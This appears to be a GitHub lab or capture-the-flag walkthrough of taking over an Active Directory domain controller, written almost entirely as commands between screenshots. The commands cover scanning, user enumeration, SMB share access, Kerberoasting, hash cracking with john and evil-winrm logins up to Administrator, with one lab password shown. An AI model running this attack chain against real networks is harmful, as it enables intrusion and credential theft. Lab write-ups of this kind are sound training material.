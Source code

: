 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f4b29e9d-ec91-488d-9c1c-8944f0193732)
```
nmap -p- 192.168.2.4 -v -sC -sV 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9179b2c4-a2d5-44da-9e18-eb2f1fca928d)

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.4 user-hack.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8378bfd-9f39-49fd-8fd4-ee903864c522)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology
```
smbmap -H 192.168.2.4 -u "guest" -p "" -d codeby.cdb 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d0a99e64-34d8-4f12-8a33-f998f6734971)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f576be09-5901-42ff-927f-3f1e3d2e4d06)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/735656c1-2a35-4692-a325-9090da14b569)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/84951fcb-17b0-4561-84c9-7963189cb7f2)
```
smbclient -L \\\\192.168.2.4\\ -U amaslova
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eed7217e-c251-47c3-9535-633f5ac2c235)
```
smbmap -u "amaslova" -p "NeverGiv3up" -H 192.168.2.4 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ff4437ae-ad83-4ff8-a001-f5bab1712848)
```
impacket-GetUserSPNs 'codeby.cdb/amaslova:PASS' -dc-ip 192.168.2.4 -outputfile hashpass.txt  
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29c39627-ac70-4a32-8348-cfea43f12512)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hashpass.txt 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9dde67b3-b7c3-4d3d-82a3-3fd03297327f)
```
evil-winrm -i 192.168.2.4 -u 'dsemenov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b924c1de-6064-458e-aa9d-581579ab75cd)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3732a5e8-7985-4d98-8912-c11ad5003a93)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f714e60c-bd41-4c22-9e00-651c65b5028c)
```
evil-winrm -i 192.168.2.4 -u Administrator -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5c943877-4a22-40a1-a984-9bdc388e6113)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e2e38f5a-c017-4ed1-97f2-8fb2bbe978c2)


